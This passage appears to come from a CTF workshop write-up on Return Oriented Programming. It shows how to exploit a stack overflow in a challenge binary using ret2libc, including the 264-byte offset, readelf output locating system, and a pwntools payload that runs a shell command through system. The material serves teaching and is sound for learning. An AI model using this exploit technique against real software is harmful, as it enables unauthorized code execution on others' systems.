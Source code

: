 This output means that the value that ends up being in `$rip` after `read_motd`
returns is at offset 264 in the buffer. The only piece of information missing
now is how to use `$rip` to gain code execution.

[msf]: https://www.metasploit.com/ "Metasploit Framework"

## Phase 4 - Building the Exploit

A common technique that is used in Return Oriented Programming is called
`ret2libc` and the goal of this challenge was to introduce the concept in a
practical way. Thankfully, the challenge is kind enough to call `system` at the
beginning of the `main` function. That gadget is very powerful because it makes
it easy to convert data into executable code through the power of the shell.

A few obstacles are in the way though:

1. How to move execution to `system`?
1. How to pass parameters to the function call?
1. What is the address of `system`?

The first question is easy to answer: Put the address of `system` on the stack
where it will end up in `$rip`, that is, offset 264 of the payload.

The second question, however, is a little trickier: The calling convention in x64
does not make use of the stack for parameters 1 through 4, instead using
registers for better efficiency. Parameter 1 is always passed in `$rdi`, and the
return value is always in `$rax`.

Upon inspection of the register state after the crash, a careful observer will
notice that `$rdi` points to the stack, at the following data: `a0Aa1Aa2` which
is the pattern that was sent to get the crash, meaning it already points to the
stack... lucky! This offset also happens to be 1 byte inside the buffer, meaning
that the argument for system can be stored there.

And finally, onto the last question: Where is `system`? There are many answers
to this one since the binary is statically linked and has no address space
randomization:

- Grab the address of `call system` in `main()`
- Grab the real address of `system` using `readelf -s`
- Grab the GOT offset of the real address of `system`

The `readelf` method looks like this:

```sh
$ readelf -s ./motd_v0.1 | grep system
   221: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS system.o
   227: 0000000000408e10  1169 FUNC    LOCAL  DEFAULT    6 do_system
   645: 00000000004a97c8    10 OBJECT  LOCAL  DEFAULT    9 system_dirs
> 1067: 00000000004092b0    45 FUNC    WEAK   DEFAULT    6 system <
  1575: 00000000004092b0    45 FUNC    GLOBAL DEFAULT    6 __libc_system
```

Which means that the address of `system` is `0x4092b0` (line 5).

At last, all the parts can be put together:

```python
# Solution
from pwn import *

# Important: Addresses in x64 are little endian.
def q(addr): return pack('<Q', addr)

OFFSET = 264         # [*] Exact match at offset 264
SYSTEM = q(0x4092b0)

PAYLOAD = "cat ~/flag.txt\x00"
PAYLOAD = "A" + PAYLOAD + "A" * (OFFSET - len(PAYLOAD) - 1)
PAYLOAD += SYSTEM # ret2libc

```

[m]: https://montrehack.ca "Workshop Slides"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[ref-pie]:   https://en.wikipedia.org/wiki/Position-independent_code "Position-idependent Code"
[ref-relro]: https://ctf101.org/binary-exploitation/relocation-read-only/ "CTF101: Relocate Read-Only Segments"
[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"